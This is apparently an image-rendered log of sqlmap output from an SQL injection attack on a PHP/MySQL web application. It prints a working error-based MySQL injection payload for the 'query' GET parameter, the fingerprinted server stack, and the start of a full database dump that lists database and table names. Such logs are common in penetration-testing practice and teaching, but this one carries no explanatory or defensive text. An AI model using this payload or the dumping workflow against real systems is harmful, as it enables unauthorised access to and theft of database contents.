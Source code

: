 ```bash
GET parameter 'query' is vulnerable. Do you want to keep testing the others? [y/N] y
sqlmap identified the following injection points with a total of 33 HTTP(s) requests:
---
Place: GET
Parameter: query
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: query=abc AND (SELECT 1000 FROM(SELECT COUNT(*),CONCAT(CHAR(58,98,119,100,58),(SELECT (CASE WHEN (1000=1000) THEN 1 ELSE 0 END)),CHAR(58,108,110,101,58),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)
---

[13:33:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian or Ubuntu
web application technology: Apache 2.2.22, PHP 5.4.4
back-end DBMS: MySQL 5.0
[13:33:37] [INFO] sqlmap will dump entries of all databases' tables now
[13:33:37] [INFO] fetching tables
[13:33:37] [INFO] fetching database names
[13:33:37] [INFO] the SQL query used returns 2 entries
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: mtpox
[13:33:37] [INFO] the SQL query used returns 41 entries
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: CHARACTER_SETS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: COLLATIONS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: COLLATION_CHARACTER_SET_APPLICABILITY
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: COLUMNS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: COLUMN_PRIVILEGES
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: ENGINES
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: EVENTS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: FILES
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: GLOBAL_STATUS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: GLOBAL_VARIABLES
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: KEY_COLUMN_USAGE
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: PARAMETERS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: PARTITIONS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: PLUGINS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: PROCESSLIST
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: PROFILING
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: REFERENTIAL_CONSTRAINTS
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: ROUTINES
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: SCHEMATA
[13:33:37] [INFO] retrieved: information_schema
[13:33:37] [INFO] retrieved: SCHEMA_PRIVILEGES
```